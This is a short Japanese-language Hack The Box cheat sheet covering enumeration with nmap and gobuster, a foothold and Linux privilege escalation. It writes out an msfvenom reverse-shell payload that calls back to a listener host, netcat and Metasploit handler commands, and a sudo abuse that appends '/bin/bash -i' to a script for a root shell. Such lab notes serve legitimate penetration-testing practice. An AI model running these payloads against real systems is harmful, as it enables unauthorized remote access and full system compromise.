 # HTB CheatSheet

## Enumeration

### Nmap

ポートの特定を行う。

```bash
nmap -sC -sV -oN nmap/initial $IP
```

### Gobuster

Webサーバが公開しているファイルやディレクトリの特定を行う。

```bash
gobuster dir -u http://${IP} -w /usr/share/wordlists/dirb/common.txt 

gobuster dir -u http://${IP} -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt -k
```

### Nikto

## Foothold

### Create Payload

ペイロードを作成する。

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.0.0.1 LPORT=4444 -f elf -o shell.elf
```

### Reverse Shell

作成したペイロードを実行し、リバースシェルを確立する。

```bash
nc -lvnp 4444

msfconsole
use exploit/multi/handler
set payload linux/x64/shell_reverse_tcp
run (exploit)
```

## Privilege Escalation

### Linux

sudo権限の確認を行う。

```bash
sudo -l
```

上のコマンドで、`(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh` という結果が得られた場合、monitor.shを編集することで、root権限でコマンドを実行できる。

```bash
echo "/bin/bash -i" >> /home/nibbler/personal/stuff/monitor.sh
sudo ./monitor.sh
```

